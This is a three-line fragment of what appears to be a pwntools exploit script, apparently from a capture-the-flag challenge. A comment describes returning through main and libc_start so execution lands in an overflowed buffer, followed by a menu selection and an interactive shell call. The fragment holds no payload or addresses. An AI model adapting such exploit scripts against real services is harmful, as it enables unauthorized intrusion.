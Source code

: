 ```python
# now we return from menu to main and libc_start to quit returning into our buffer
r.send("5\n")

r.interactive()


```
